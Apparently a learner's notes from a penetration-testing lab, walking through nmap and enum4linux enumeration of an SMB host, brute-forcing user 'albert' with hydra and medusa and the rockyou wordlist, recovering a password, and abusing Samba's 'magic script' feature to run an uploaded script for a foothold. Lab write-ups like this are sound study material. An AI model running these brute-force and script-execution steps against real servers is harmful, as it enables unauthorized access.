
nmap -sn 192.168.99.1/24 

nmap 192.168.99.28 

nmap -sC -sV 192.168.99.28

smbmap -H 192.168.99.28   => enumanate  => we got nothing

enum4linux 192.168.99.28   =>  we got username

![[Pasted image 20230114225608.png]]

nmap 192.168.99.28 --script=smb-enum-users -sV   => best one  => we got user too


![[Pasted image 20230114225639.png]]

-----

we try to get smb password with hydra tool

** hydra -l albert -P /usr/share/wordlists/rockyou.txt 192.168.99.28 smb -t 1

-t option for time => 1 request per time


** medusa -h 192.168.99.28 -u albert -P /usr/share/wordlists/rockyou.txt -M smbnt  => nice dal

Finally we get user name and paswrd 
username -> albert 
password -> bradley1

smbmap -H 192.168.99.28 -u albert -p 'bradley1'    => we are entering again

smbclient //192.168.99.28/albert -U albert    => we are going to albert folder

smbconf twe mar a ye kyi sone ka * magic script file bal* => cuzz auto run mot

![[Pasted image 20230115152519.png]]


subl smbscript.txt    => we create this file * file name must be same with magic script file*

=> smbshare folder htal ko win twar dal
smbclient //192.168.99.28/smbshare -U albert

![[Pasted image 20230115155526.png]]

rename smbscript.txt smbscript.sh  => we change txt file to sh file

 ######### we got user 





 

  


